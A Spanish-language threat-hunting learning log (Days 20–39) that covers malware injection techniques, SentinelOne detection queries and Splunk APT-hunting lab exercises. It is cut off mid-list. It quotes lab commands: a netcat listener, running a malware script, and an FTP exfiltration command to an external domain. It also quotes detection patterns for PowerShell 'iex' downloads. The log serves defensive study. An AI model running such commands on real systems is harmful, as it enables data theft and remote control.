  <p>El día de hoy he visto las estrategias que utiliza el malware para insertar su código malicioso en procesos legítimos, así como también el malware que no es un archivo en sí mismo, sino código malicioso que opera completamente dentro de la memoria de una computadora, sin dejar rastro en el sistema de archivos.</p>
  
  <p><strong>Técnicas de Inyección de Procesos:</strong></p>
  <ul>
    <li><strong>Inyección de DLL:</strong> Inyección de procesos en la que un código malicioso inserta su propia Biblioteca de Enlaces Dinámicos (DLL) en un proceso legítimo que se está ejecutando en memoria.</li>
    <li><strong>Inyección de Código:</strong> Se inserta código malicioso en el espacio de memoria de un proceso legítimo, alterando su comportamiento para llevar a cabo acciones maliciosas.</li>
    <li><strong>Inyección de Hilos:</strong> El código malicioso crea un nuevo hilo dentro de un proceso legítimo e inyecta su carga útil en el flujo de ejecución de ese hilo.</li>
    <li><strong>Técnicas de Asignación/Escritura de Memoria:</strong> El malware se asigna dinámicamente memoria dentro del espacio de direcciones del proceso objetivo y luego escribe su carga útil en esa memoria asignada.</li>
  </ul>
  
  <p><strong>Técnicas de Malware Sin Archivos:</strong></p>
  <ul>
    <li><strong>Ejecución Basada en Memoria:</strong> El código malicioso se carga y ejecuta directamente en la memoria del sistema.</li>
    <li><strong>Técnicas de "Living-off-the-land" (LOLbins):</strong> Utilizan herramientas y procesos del sistema preexistentes y confiables para ejecutar actividades maliciosas, a menudo sin necesidad de crear nuevos archivos.</li>
    <li><strong>Ataques Basados en el Registro:</strong> Implican explotar el Registro de Windows con fines maliciosos.</li>
    <li><strong>Macros de Documentos:</strong> Se usan scripts integrados dentro de archivos de documentos para realizar acciones maliciosas al abrir el documento.</li>
  </ul>
  
  <p>Puedes encontrar más información y ejemplos detallados en los siguientes enlaces de referencia:</p>
  <ul>
    <li><a href="https://attack.mitre.org/software/S0154/">Ejemplo de Cobalt Strike utilizado en ataques de red dirigidos</a></li>
    <li><a href="https://attack.mitre.org/software/S0446/">Ejemplo de técnicas LOLbins utilizadas por Ryuk en ataques de ransomware</a></li>
    <li><a href="https://attack.mitre.org/software/S0384/">Ejemplo de ataques basados en el Registro utilizados por Dridex</a></li>
    <li><a href="https://attack.mitre.org/software/S0386/">Ejemplo de macros de documentos utilizados por Ursnif</a></li>
  </ul>
</details>

<details>
  <summary><strong>⁠Day 21: Detección de procesos irregulares</strong></summary>
  <p>El día de hoy, he visto que uno de los modos más comunes en que el malware intenta evitar la detección es haciéndose pasar por un proceso legítimo dentro de un sistema, así que he estado investigando cómo lo hace y cómo podemos detectarlo.</p>
  
  <p><strong>Extracto de técnicas que usa el malware para pasar desapercibido:</strong></p>
  <ul>
    <li><strong>Suplantación de procesos críticos:</strong> El malware puede hacerse pasar por procesos legítimos ejecutándose bajo un nombre similar. Una forma de detectar este malware es usar algoritmos de similitud de cadenas para buscar cadenas que no sean iguales pero tampoco muy diferentes.</li>
    <li><strong>Ubicaciones ejecutables inusuales:</strong> El malware puede ejecutarse desde ubicaciones inusuales para dificultar su detección. También podemos ver cómo algunos aprovechan ubicaciones específicas como parte de sus tácticas de evasión y secuestro.</li>
    <li><strong>Jerarquía de procesos:</strong> La jerarquía de procesos es una característica fundamental tanto en sistemas Windows como en Unix. Al buscar irregularidades en esta jerarquía podemos identificar posibles suplantadores o procesos maliciosos.</li>
    <li><strong>Secuestro de procesos:</strong> Algunos tipos de malware pueden tomar el control de un proceso existente y ejecutar con su espacio de memoria y permisos. Esto puede lograrse mediante ganchos de función, modificaciones/patching en línea o inyección de DLL (Dynamic Link Library).</li>
  </ul>
</details>

<details>
  <summary><strong>Day 22: Detección de Movimiento Lateral</strong></summary>
  <p>El día de hoy he visto los puntos estratégicos cruciales en la detección de movimiento lateral en endpoints durante el threat hunting.</p>
  
  <p><strong>Extracto:</strong></p>
  <ul>
    <li><strong>Movimientos laterales y reconocimiento:</strong> Los atacantes avanzan lateralmente dentro de una red una vez que comprometen un punto de entrada inicial, recopilando información sobre usuarios, privilegios y sistemas accesibles para planificar sus siguientes movimientos.</li>
    <li><strong>Uso explícito de credenciales:</strong> La autenticación mediante credenciales explícitas es común en entornos Windows, pero representa una vulnerabilidad potencial que los atacantes pueden aprovechar. Es esencial implementar un monitoreo proactivo de las credenciales explícitas y establecer listas blancas para usuarios y aplicaciones autorizadas.</li>
    <li><strong>Monitoreo del registro y archivos del sistema:</strong> Tanto el registro como los archivos del sistema son objetivos principales para el malware en busca de persistencia y control. La auditoría del registro y el monitoreo de las marcas de tiempo de los archivos son prácticas esenciales para identificar cambios inusuales que podrían indicar actividad maliciosa.</li>
  </ul>
</details>

<details>
  <summary><strong>⁠Day 23: Detección de malware en archivos del sistema</strong></summary>
  <p>En el threat hunting enfocado a los endpoint, es importante tener constancia de los archivos presentes en el sistema y las actividades anómalas. Hoy he estado investigando qué tener en cuenta al buscar amenazas a la hora de analizar los archivos y algunos ejemplos.</p>
  
  <p><strong>Extracto de los temas investigados:</strong></p>
  <ul>
    <li><strong>Nombres de archivo maliciosos conocidos:</strong> Ciertas familias de malware usan nombres predecibles en sus tácticas de infección y persistencia en sistemas comprometidos. Identificar estos nombres es una estrategia efectiva para un cazador de amenazas.</li>
    <li><strong>Extensiones de archivo:</strong> Los autores de malware utilizan diversas extensiones para sus ejecutables, como .exe, .bat, .cmd, .com, .lnk, .pif, .vbs, .scr y .wsh. También es importante considerar que otras extensiones pueden representar una amenaza potencial.</li>
    <li><strong>Anulación de izquierda a derecha:</strong> Es una técnica usada por atacantes para ocultar información maliciosa en nombres de archivos y textos, dificultando la detección de nombres de archivo maliciosos.</li>
  </ul>
</details>

<details>
  <summary><strong>⁠⁠Day 24: Data source de equipos para el Threat Hunting</strong></summary>
  <p>Los datos que podemos visualizar en los endpoints no ofrecen una visión detallada de la actividad en cada dispositivo. Esto es importante para poder detectar indicadores de compromiso y comportamientos anómalos. Hoy he estado repasando los diferentes puntos de recopilación de información que se pueden obtener de equipos con Windows/Linux.</p>
  
  <p><strong>Extracto sobre puntos importantes:</strong></p>
  <ul>
    <li><strong>AV Basado en el Host:</strong> Permite la detección de antivirus en máquinas individuales, con reglas personalizadas que pueden adaptarse a las necesidades de seguridad específicas de cada dispositivo.</li>
    <li><strong>Sistemas de Detección/Prevención de Intrusiones Basados en el Host:</strong>
      <ul>
        <li><strong>HIDS (Sistema de Detección de Intrusiones Basado en el Host):</strong> Detecta posibles amenazas y ataques en un sistema de host mediante la monitorización de la actividad del sistema en busca de cambios sospechosos y actividad de malware.</li>
        <li><strong>HIPS (Sistema de Prevención de Intrusiones Basado en el Host):</strong> Previene la actividad maliciosa en un sistema de host mediante el uso de análisis de comportamiento, control de aplicaciones y prevención de intrusos en la red.</li>
      </ul>
    </li>
    <li><strong>Registros de Antivirus:</strong> Estos registros pueden incluir eventos de detección de amenazas, actualizaciones de firmas, análisis programados y acciones tomadas por el software antivirus para mitigar las amenazas detectadas.</li>
    <li><strong>Firewalls Basados en el Host:</strong> Proporcionan visibilidad y control granulares sobre el tráfico de red en sistemas individuales. Los registros del firewall pueden analizarse para identificar patrones de tráfico sospechoso y actividades maliciosas.</li>
    <li><strong>Registros de Eventos de Windows:</strong> Estos registros proporcionan información detallada sobre los eventos del sistema, como intentos de inicio de sesión, instalaciones de software y errores del sistema. La revisión de estos registros puede ayudar a identificar actividades maliciosas y posibles puntos de compromiso en los sistemas Windows.</li>
  </ul>
</details>

<details>
  <summary><strong>⁠Day 25: Calidad de Datos y Metodologías</strong></summary>
  <p>Después de explorar las diferentes fuentes de datos, he investigado la importancia de la calidad de los datos en la caza de amenazas:</p>
  
  <p><strong>Calidad de Datos en la Caza:</strong></p>
  <ul>
    <li><strong>Objetivos de Calidad de Datos:</strong>
      <ul>
        <li>Mejora de la Productividad: Reducir el tiempo dedicado a corregir problemas de datos.</li>
        <li>Consistencia y Complejidad: La consistencia entre fuentes de datos facilita análisis complejos.</li>
        <li>Automatización Eficiente: Mejorar la calidad de datos optimiza los procesos de automatización.</li>
      </ul>
    </li>
    <li><strong>Importancia de la Calidad de Datos:</strong> Problemas comunes, como discrepancias en los campos de datos, impactan en la capacidad de detectar y responder a amenazas.</li>
    <li><strong>Metodología Básica:</strong>
      <ol>
        <li>Identificación de Fuentes de Datos</li>
        <li>Determinación de Fuentes Necesarias</li>
        <li>Mapeo de Fuentes de Datos</li>
        <li>Definición de Dimensiones de Calidad</li>
        <li>Desarrollo de Sistema de Puntuación</li>
        <li>Evaluación de la Calidad</li>
      </ol>
    </li>
    <li><strong>Puntuación General:</strong> Integrar puntuaciones de calidad de datos con evaluaciones de talento y tecnología nos proporciona una métrica completa para medir la efectividad en los compromisos de caza de amenazas.</li>
  </ul>
</details>

<details>
  <summary><strong>⁠Day 25: Calidad de Datos y Metodologías</strong></summary>
  <p>Después de explorar las diferentes fuentes de datos, he investigado la importancia de la calidad de los datos en la caza de amenazas:</p>
  
  <p><strong>Calidad de Datos en la Caza:</strong></p>
  <ul>
    <li><strong>Objetivos de Calidad de Datos:</strong>
      <ul>
        <li>Mejora de la Productividad: Reducir el tiempo dedicado a corregir problemas de datos.</li>
        <li>Consistencia y Complejidad: La consistencia entre fuentes de datos facilita análisis complejos.</li>
        <li>Automatización Eficiente: Mejorar la calidad de datos optimiza los procesos de automatización.</li>
      </ul>
    </li>
    <li><strong>Importancia de la Calidad de Datos:</strong> Problemas comunes, como discrepancias en los campos de datos, impactan en la capacidad de detectar y responder a amenazas.</li>
    <li><strong>Metodología Básica:</strong>
      <ol>
        <li>Identificación de Fuentes de Datos</li>
        <li>Determinación de Fuentes Necesarias</li>
        <li>Mapeo de Fuentes de Datos</li>
        <li>Definición de Dimensiones de Calidad</li>
        <li>Desarrollo de Sistema de Puntuación</li>
        <li>Evaluación de la Calidad</li>
      </ol>
    </li>
    <li><strong>Puntuación General:</strong> Integrar puntuaciones de calidad de datos con evaluaciones de talento y tecnología nos proporciona una métrica completa para medir la efectividad en los compromisos de caza de amenazas.</li>
  </ul>
</details>

<details>
  <summary><strong>Day 26: Ejemplos de búsqueda de threats</strong></summary>
  <p>El otro día consulté dónde buscar las principales fuentes de datos de las que disponemos a la hora de buscar amenazas. Hoy he visto, en algunos casos prácticos más en detalle, qué tipo de amenazas podemos detectar en diferentes fuentes.</p>
  
  <p><strong>Registros de Proxy:</strong></p>
  <ul>
    <li><strong>Tráfico no autorizado:</strong> Identificar cualquier tráfico que se envíe a través de puertos no autorizados, como el puerto 22, que podría indicar intentos de exfiltración de datos.</li>
    <li><strong>Patrones de conexión:</strong> Buscar conexiones que exhiban patrones consistentes de bytes de entrada y salida, lo que podría ser una señal de que se está utilizando una técnica de balizamiento para comunicarse con un servidor de comando y control.</li>
  </ul>
  
  <p><strong>Registros de Windows:</strong></p>
  <ul>
    <li><strong>Inicio de sesión con credenciales explícitas:</strong> Filtrar eventos de inicio de sesión que utilicen credenciales explícitas, ya que esto podría indicar intentos de movimiento lateral por parte de un atacante.</li>
    <li><strong>Cambios en grupos privilegiados:</strong> Monitorear los cambios en los grupos privilegiados, ya que esto podría indicar intentos de escalada de privilegios por parte de un intruso.</li>
    <li><strong>Intentos de inicio de sesión fallidos:</strong> Buscar patrones de intentos de inicio de sesión fallidos, especialmente aquellos que provienen de múltiples cuentas, lo que podría indicar un intento de ataque de fuerza bruta.</li>
  </ul>
  
  <p><strong>Registros de Antivirus:</strong></p>
  <ul>
    <li><strong>Detección de programas de volcado de contraseñas:</strong> Identificar cualquier detección de programas conocidos de volcado de contraseñas, como pwdump o mimikatz, ya que esto podría indicar intentos de robo de credenciales.</li>
    <li><strong>Ejecuciones de programas desconocidos:</strong> Buscar ejecuciones de programas desconocidos que podrían ser herramientas maliciosas utilizadas por un atacante para comprometer el sistema.</li>
  </ul>
</details>

<details>
  <summary><strong>⁠⁠Day 27: Hunting en entornos de endpoints</strong></summary>
  <p>El día de hoy he actualizado toda la información recopilada durante estos días referente al Threat Hunting en Endpoints.</p>
  
  <p>Los puntos detallados son:</p>
  <ol>
    <li><a href="https://nottaroff.github.io/workspace/docs/100%20days/5.%20Hunting%20en%20entornos%20de%20endpoint/#51-técnicas-de-ocultación-de-malware-" target="_blank">5.1 Técnicas de Ocultación de Malware</a></li>
    <li><a href="https://nottaroff.github.io/workspace/docs/100%20days/5.%20Hunting%20en%20entornos%20de%20endpoint/#52-descubriendo-procesos-irregulares" target="_blank">5.2 Descubriendo procesos irregulares</a></li>
    <li><a href="https://nottaroff.github.io/workspace/docs/100%20days/5.%20Hunting%20en%20entornos%20de%20endpoint/#54-técnicas-de-adquisición-de-datos-en-threat-hunting" target="_blank">5.3 Detección de movimiento Lateral</a></li>
    <li><a href="https://nottaroff.github.io/workspace/docs/100%20days/5.%20Hunting%20en%20entornos%20de%20endpoint/#54-técnicas-de-adquisición-de-datos-en-threat-hunting" target="_blank">5.4 Técnicas de Adquisición de Datos en Threat Hunting</a></li>
  </ol>
</details>

<details>
  <summary><strong>Day 28: Detección de conexiones de larga duración</strong></summary>
  <p>El día de hoy he creado un pequeño laboratorio con una VM Ubuntu. Utilizando Wireshark, Zeek y Rita con el objetivo de identificar conexiones de red de larga duración.</p>
  <p>Puedes acceder al laboratorio en el siguiente enlace: <a href="https://activecm.github.io/threat-hunting-labs/long_connections/" target="_blank">Laboratorio de conexiones de larga duración</a></p>
  <p>Wireshark permite visualizar y analizar paquetes de red, mientras que Zeek genera registros detallados de la actividad de la red. Ambas herramientas son fundamentales para identificar conexiones TCP y UDP de larga duración, lo que se logra ordenando las conexiones por duración. Es importante tener en cuenta que las diferencias en el manejo de conexiones UDP entre Wireshark y Zeek pueden influir en los resultados del análisis.</p>
  <p>Además, es crucial considerar el comportamiento del malware, que puede generar conexiones intermedias de duración media para evitar la detección de conexiones de larga duración. Por lo tanto, es necesario evaluar no solo la duración de las conexiones, sino también su naturaleza y posibles implicaciones de seguridad.</p>
</details>

<details>
  <summary><strong>⁠⁠Day 29: Sentinel Threat Hunting Course</strong></summary>
  <p>El día de hoy he empezado un curso de Threat Hunting en los recursos de SentinelOne. El curso es realizar hunting con el entorno de Sentinel, pero también tiene teoría introductoria y ejemplos de uso.</p>
  <p>Uno de los hallazgos que identifiqué durante el ejemplo práctico fue la detección de una conexión entrante a un punto final a través del protocolo RDP desde una dirección IP externa. Además, se observaron conexiones entrantes en puertos específicos, lo que podría indicar un posible abuso de herramientas como PSExec.</p>
  <p>También detecté la ejecución de comandos de sistema (cmd.exe) y scripts de PowerShell (powershell.exe), utilizados para acciones como la creación de archivos y conexiones salientes a recursos externos.</p>
  <h3>Consultas Utilizadas:</h3>
  <ul>
    <li>Filtrado de conexiones RDP entrantes desde direcciones IP externas:
      <pre>DstPort = "3389" AND SrcIP Not In ("10.0.1.1", "10.0.1.10")</pre>
    </li>
    <li>Búsqueda de instancias de PSExec no asociadas al usuario "administrador":
      <pre>ProcessName contains "PSExec" AND User not Contains "administrador"</pre>
    </li>
    <li>Identificación de actividades de PowerShell conectándose a través del puerto 21:
      <pre>Process contains "Powershell" AND DstPort = "21" AND ProcessCMD contains "iex"</pre>
    </li>
    <li>Detección de comandos de PowerShell involucrando FTP y ejecución de comandos:
      <pre>ProcessName contains "Powershell" AND ProcessCmd contains "ftp" AND ProcessCMD contains "iex"</pre>
    </li>
  </ul>
</details>

<details>
  <summary><strong>⁠⁠Day 30: Sentinel Threat Hunting Course II</strong></summary>
  <p>El día de hoy he seguido con el curso de Sentinel University sobre lo que tenemos que tener en cuenta a la hora de usar la opción de Visibility - Hunting.</p>
  <p>SentinelOne es un XDP que identifica y neutraliza posibles riesgos de seguridad en los sistemas. Al utilizar la funcionalidad de Deep Visibility, podemos examinar exhaustivamente eventos, artefactos y datos de objetos para detectar cualquier actividad sospechosa o maliciosa que pueda pasar desapercibida para los sistemas de detección tradicionales.</p>
  <p>Cuando realizamos threat hunting en Sentinel, es importante tener en cuenta que buscamos nuevas variantes de malware que aún no han sido detectadas por el sistema. Estas amenazas pueden ser únicas y escapar de la detección de inteligencia artificial. Por lo tanto, es crucial marcar toda la línea de tiempo como sospechosa o maliciosa y examinar cada evento en su totalidad para encontrar cualquier indicio de actividad no autorizada.</p>
  <p>Una vez identificada la actividad sospechosa, podemos utilizar la información detallada proporcionada por los objetos de visibilidad profunda para investigar la causa raíz de la amenaza. Esto implica encontrar todos los artefactos relacionados con el incidente y determinar hasta qué punto el malware ha infiltrado nuestros sistemas.</p>
  <p>Además de responder a las amenazas detectadas, la información recopilada durante la caza de amenazas nos permite establecer reglas y políticas de seguridad más efectivas para prevenir futuros ataques. Con una comprensión clara de cómo opera el malware y qué indicadores de compromiso buscar, podemos fortalecer nuestra postura de seguridad y proteger mejor nuestros sistemas.</p>
</details>

<details>
  <summary><strong>Day 31: Sentinel Threat Hunting Course Deep Visibility</strong></summary>
  <p>Siguiendo el curso de Threat Hunting con SentinelOne, el día de hoy he visto el uso de la funcionalidad de Deep Visibility. Este proceso se divide en varias etapas que abarcan desde la preparación hasta la identificación de actividades maliciosas, la obtención de inteligencia y la ejecución de consultas para descubrir posibles amenazas.</p>
  <p>En la fase de preparación, destaca la importancia de identificar cualquier acción que otorgue a nuestro equipo una ventaja sobre los atacantes. La funcionalidad de Deep Visibility recopila una gran cantidad de información, podremos modificar el tipo de registro que realizará Sentinel al configurar la privacidad de Deep Visibility en las políticas de Sentinel One.</p>
  <p>La fase de identificación se centra en reconocer una serie de eventos como maliciosos y obtener inteligencia sobre las amenazas o vulnerabilidades que se van a investigar. Destacando la importancia de buscar evidencia, formular artefactos buscables y encontrar eventos que puedan llamar la atención del equipo de seguridad.</p>
  <p>Finalmente, se detalla la ejecución de queries para analizar los datos recopilados. En Sentinel tenemos presente diferentes tipos de consultas disponibles, como las relacionadas con la fecha y hora, numéricas, de enumeración, de cadenas de caracteres y booleanas. Se han detallado el uso de declaraciones AND para dividir consultas en partes más pequeñas y el manejo de errores al utilizar expresiones regulares.</p>
</details>

<details>
  <summary><strong>⁠Day 32: SentinelOne Threat Hunting Course Hunter</strong></summary>
  <p>Hoy he visto otras herramientas de SentinelOne diseñadas para el Threat Hunting. En particular, me he centrado en la utilidad de Hunter, una extensión del navegador que recopila datos de páginas web y genera consultas en Deep Visibility. Estas consultas están diseñadas específicamente para identificar indicadores que podrían sugerir la presencia de malware.</p>
  <p>Una característica interesante de Hunter es su biblioteca de consultas, que automatiza la búsqueda de malware con actualizaciones más frecuentes que las disponibles en la consola de gestión estándar de SentinelOne. Esta capacidad de actualización constante proporciona una ventaja significativa en la detección proactiva de amenazas.</p>
  <p>Además de explorar Hunter, he examinado varios enfoques para la búsqueda de malware dentro de la consola de gestión. Esto incluye la capacidad de modificar libremente los módulos dentro del registro, lo que permite una adaptación más precisa a las necesidades específicas de la red y del entorno de amenazas.</p>
  <p>Por último, he utilizado la consulta EventType "File Creation" para identificar rápidamente archivos potencialmente maliciosos. Es importante tener en cuenta que los archivos del Explorador pueden representar una fuente de problemas en los endpoints, por lo que se recomienda una evaluación cuidadosa de su inclusión en las investigaciones de amenazas.</p>
</details>

<details>
  <summary><strong>⁠⁠Day 33: Práctica Threat Hunting con SentinelOne</strong></summary>
  <p>El día de hoy he realizado el laboratorio de S1 University para el threat hunting con SentinelOne con el propósito de practicar la identificación y mitigación de amenazas, en este caso, un troyano de acceso remoto (RAT) en un entorno Linux mediante el uso de la Consola de Gestión de SentinelOne.</p>
  <p><strong>Pasos Realizados durante la práctica:</strong></p>
  <ul>
    <li>Preparación para la Infección:</li>
    <ul>
      <li><code>sudo nc -l -p 666</code>: Puerto de escucha con Netcat.</li>
      <li><code>sudo /home/forensics/Desktop/yoyobins.sh</code>: Ejecución del malware.</li>
      <li><code>sudo netstat -peanut | grep 172.245.7.14:666</code>: Lista de conexiones de red activas al servidor C2.</li>
    </ul>
    <li>Investigación en la Consola de SentinelOne:</li>
    <ul>
      <li>Uso de consultas de Deep Visibility para identificar la actividad maliciosa y asociar un Storyline Id con la cadena de infección.</li>
      <li>Ejemplos de consultas utilizadas:</li>
      <ul>
        <li><code>NetConnOutCount > "5"</code></li>
        <li><code>DstIP RegExp "..."</code></li>
        <li><code>EndpointName ContainsCIS "" AND ChildProcCount > "50"</code></li>
        <li><code>DstIP RegExp "\\b(?!10\\.|192\\.168\\.|172\\.(?:1[6-9]|2[0-9]|3[01])\\.)(?:25[0-5]|2[0-4][0-9]|[01]?[0-9]?[0-9])(?:\\.(?:25[0-5]|2[0-4][0-9]|[01]?[0-9]?[0-9])){3}\\b" AND SrcProcSignedStatus = "unsigned"</code></li>
      </ul>
      <li>Identificación del Storyline Id del proceso malicioso y marcado como amenaza.</li>
    </ul>
    <li>Análisis Detallado:</li>
    <ul>
      <li>Inspección del árbol de procesos para comprender el comportamiento del malware.</li>
    </ul>
    <li>Mitigación de Amenazas:</li>
    <ul>
      <li>Ejecución de acciones de mitigación seleccionando "QUARANTINE" y marcando las amenazas como resueltas y verdaderas positivas.</li>
      <li>Verificación de la cuarentena y mitigación de los archivos maliciosos.</li>
    </ul>
  </ul>
</details>

<details>
  <summary><strong>Day 34: Hunting an APT with Splunk</strong></summary>
  <p>Hoy empiezo voy a empezar unos ejercicios de Hunting an APT.</p>
  <p>En el ejercicio de hoy:</p>
  <p>Se ha detectado una intrusión por parte del grupo APT Taedonggang. Se sospecha que los atacantes están exfiltrando datos utilizando el protocolo FTP no cifrado, correspondiente a la técnica T1048.003 según el marco MITRE ATT&CK. <a href="https://attack.mitre.org/techniques/T1048/003/">https://attack.mitre.org/techniques/T1048/003/</a></p>
  <p><strong>Proceso de Detección:</strong></p>
  <ul>
    <li>Fuentes de Datos Iniciales:</li>
    <ul>
      <li>Suricata: Detección de intrusiones y análisis de tráfico de red.</li>
      <li>Palo Alto Networks: Monitorización de amenazas.</li>
      <li>Sysmon (Microsoft): Registro de eventos operacionales detallados.</li>
    </ul>
    <li>Identificación de Rutas de Comunicación:</li>
    <ul>
      <li>Suricata: Eventos FTP.</li>
      <ul>
        <li><code>index=botsv2 ftp sourcetype="suricata" | stats count by src_ip dest_ip | sort - count</code></li>
        <li>Identificación de hosts internos como estaciones de trabajo comprometidas.</li>
      </ul>
      <li>Palo Alto Networks: Análisis del tráfico de amenazas.</li>
      <ul>
        <li><code>index=botsv2 sourcetype=pan:threat | stats count by src_ip dest_ip | sort - count</code></li>
      </ul>
      <li>Sysmon: Identificación de eventos de conexión de red.</li>
      <ul>
        <li><code>index=botsv2 ftp sourcetype="xmlwineventlog:microsoft-windows-sysmon/operational" | stats count by host | sort - count</code></li>
      </ul>
    </ul>
    <li>Comandos Ejecución:</li>
    <ul>
      <li>Comandos relacionados con el uso del cliente FTP de Windows.</li>
      <ul>
        <li><code>"C:\Windows\system32\ftp.exe" open hildegardsfarm.com</code></li>
        <li>Indica una conexión FTP a un servidor externo para la transferencia de datos.</li>
      </ul>
    </ul>
    <li>Análisis Temporal de src/dest:</li>
    <ul>
      <li>Análisis de series temporales para detectar patrones de tráfico.</li>
      <ul>
        <li><code>index=botsv2 ftp sourcetype="pan:*" src=* dest=* | eval uniq=src." ".dest | timechart count by uniq</code></li>
        <li>Se detectaron picos de tráfico FTP el 23 y 25 de agosto.</li>
      </ul>
    </ul>
    <li>Análisis Detallado del Tráfico FTP:</li>
    <ul>
      <li>Se identificaron dos direcciones IP de origen relacionadas con eventos FTP.</li>
      <ul>
        <li><code>index=botsv2 ftp sourcetype="stream:ftp" src=* dest=160.153.91.7</code></li>
        <li>Transferencia de archivos desde estaciones de trabajo comprometidas a un servidor externo.</li>
      </ul>
    </ul>
  </ul>
</details>

<details>
  <summary><strong>Day 35: Hunting an APT with Splunk II</strong></summary>
  <p>El día de hoy terminé la práctica de ayer.</p>
  <p><strong>El resumen de la caza de exfiltración a través de FTP es:</strong></p>
  <ul>
    <li>Observamos que FTP se utilizó para la exfiltración de datos.</li>
    <li>FTP fue utilizado principalmente y se observó en tres sistemas.</li>
  </ul>
  <p><strong>Acciones:</strong></p>
  <ul>
    <li>Basadas en el archivo winsys32.dll encontrado con el argumento -s en Sysmon.</li>
    <ul>
      <li>No fue completamente exitoso.</li>
      <li>Se observaron múltiples intentos, incluyendo un comando ftp open.</li>
    </ul>
  </ul>
  <ul>
    <li>Los dos equipos de trabajo, wrk-btun y wek-klagerf, se observaron comunicándose con la IP externa 160[.]153[.]91[.]7 a través de múltiples fuentes.</li>
    <li>Los servidores mercury y venus solo se observaron en el tráfico de Palo Alto.</li>
    <li>El adversario está utilizando el comando ftp en los dos equipos de trabajo principalmente para intentar exfiltrar datos a esta dirección IP.</li>
    <li>Se utilizó un nombre de archivo con extensión dll para ocultar que se estaba llamando a un script.</li>
    <li>Los eventos de FTP proporcionan información sobre la actividad de carga y descarga.</li>
    <li>Los mismos siete archivos están siendo descargados en ambos equipos de trabajo.</li>
    <li>Los archivos PDF de Froht.ly se están cargando con éxito varias veces, probablemente porque TopSecretYest.pdf parece no querer cargarse (PAN: Threat muestra bloqueado).</li>
    <li>El tráfico de exfiltración está destinado a un dominio llamado hildegardsfarm.com.</li>
  </ul>
  <p>Puedes ver el reporte completo de la práctica aquí: <a href="https://nottaroff.github.io/workspace/docs/Hunting%20an%20APT/1.%20Exfiltración%20a%20través%20de%20FTP/">Reporte Completo</a></p>
</details>

<details>
  <summary><strong>Día 36: Cazando un APT: Infraestructura del Adversario</strong></summary>
  <p>Continuando con la serie "Cazando un APT", hoy he llevado a cabo una práctica enfocada en la infraestructura de un grupo de ciberactores que ha estado perpetrando ataques en redes informáticas de diversas organizaciones.</p>
  <p><strong>Los hallazgos clave son:</strong></p>
  <ul>
    <li>El grupo se centra en servidores web expuestos a Internet y utiliza certificados SSL autofirmados.</li>
    <li>Dependen de servidores VPS situados en países con políticas de privacidad robustas, como Alemania.</li>
  </ul>
  <p><strong>Metodología:</strong></p>
  <ul>
    <li>Centramos nuestra identificación en la dirección IP **45[.]77[.]65[.]211** y analizamos el tráfico SSL en Splunk.</li>
    <li>Observamos varios hashes de certificados y los verificamos en OSINT para determinar su maliciosidad.</li>
    <li>Utilizamos herramientas de OSINT para geolocalizar la dirección IP, confirmando que los VPS están desplegados en Alemania.</li>
  </ul>
  <p><strong>Conclusiones:</strong></p>
  <ul>
    <li>El adversario tiene al menos cuatro servidores adicionales desplegados, identificados mediante el hash de los certificados SSL.</li>
    <li>Buscar infraestructura del atacante sin pistas adicionales es desafiante y que los certificados SSL pueden proporcionar valiosa información sobre la misma.</li>
    <li>Los certificados SSL pueden proporcionar valiosa información sobre la infraestructura del adversario.</li>
  </ul>
  <p>Finalmente, sugerimos varios pasos a seguir, incluyendo la automatización de la recopilación de OSINT, la corroboración de fuentes y la vigilancia continua de los hashes de los certificados y las direcciones IP identificadas.</p>
  <p>Puedes ver más en detalle en el siguiente enlace: Reporte Completo</p>
</details>

<details>
  <summary><strong>Día 37: Cazando un APT - Cuenta Local</strong></summary>
  <p>En la continuación de la serie "Cazando un APT", hoy me centré en la técnica que utilizan los adversarios para mantener acceso persistente en equipos remotos, específicamente en la creación de cuentas locales sospechosas.</p>
  <p><strong>Identificación de Eventos de Creación de Cuentas:</strong></p>
  <ul>
    <li>Utilicé el log de seguridad de Windows para buscar el ID de evento 4720, que indica la creación de una cuenta.</li>
    <li>La consulta utilizada fue: <code>index=botsv2 sourcetype="wineventlog" EventCode=4720</code></li>
  </ul>
  <p><strong>Análisis de Eventos Encontrados:</strong></p>
  <ul>
    <li>Encontré 4 eventos de creación de cuentas de usuario.</li>
    <li>Examiné los nombres de cuenta clave, identificando las cuentas <code>svcnc</code>, <code>service3</code>, y <code>billy.tun</code> como sospechosas.</li>
  </ul>
  <p><strong>Verificación de Sistemas Afectados:</strong></p>
  <ul>
    <li>Analicé dónde y cuándo fueron creadas estas cuentas utilizando la consulta: <code>index=botsv2 sourcetype=wineventlog EventCode=4720 Account_Name=svcvnc | table _time host Account_Name SAM_Account_Name</code></li>
    <li>Observé que los registros de creación de cuentas ocurrieron en dos estaciones de trabajo y dos servidores.</li>
    <li>Detecté la creación de la misma cuenta en cuatro sistemas diferentes en un corto período de tiempo, lo cual es sospechoso.</li>
    <li>Utilicé los comandos <code>table</code> y <code>transpose</code> en Splunk para comparar valores de atributos en los registros de eventos de Windows. Descubrí que ciertos campos estaban consistentemente vacíos, lo cual es inusual.</li>
  </ul>
  <p>Para más detalles, puedes consultar el análisis completo en el siguiente enlace: Análisis Completo</p>
</details>


<details>
  <summary><strong>Día 38: Cazando un APT - Cuenta Local</strong></summary>
  <p>Hoy he completado el análisis que comencé ayer sobre cómo detectar la persistencia de un adversario en nuestros sistemas, específicamente cuando se crean varias cuentas de usuarios sospechosas.</p>
  <p><strong>Complementando con lo visto anteriormente:</strong></p>
  <ul>
    <li>Realicé un análisis detallado de los eventos de creación de cuentas, identificando las cuentas creadas, el momento y los sistemas involucrados.</li>
  </ul>
  <p><strong>Búsqueda de Eventos Adicionales:</strong></p>
  <ul>
    <li>Amplié la búsqueda para incluir otros eventos de seguridad (como 4738 y 4732) que podrían indicar actividades sospechosas relacionadas con las cuentas de usuario.</li>
  </ul>
  <p>Para más detalles, puedes consultar el análisis completo en el siguiente enlace: Análisis Completo</p>
</details>


<details>
  <summary><strong>Día 39: Cazando un APT - Exfiltración DNS</strong></summary>
  <p>Continuando con la serie "Cazando un APT", hoy analicé una posible exfiltración de datos utilizando el protocolo DNS.</p>
  <p><strong>Investigación de la Exfiltración de Datos a través de DNS:</strong></p>
  <ul>
    <li>Utilicé la fuente de datos <code>index=botsv2 sourcetype=stream:dns</code> para buscar eventos relacionados con la dirección IP **160.153.91.7**.</li>
    <li>Identifiqué que varios eventos están asociados con el dominio **hildegardsfarm.com**.</li>
  </ul>
  <p><strong>Búsqueda más específica para este dominio:</strong></p>
  <ul>
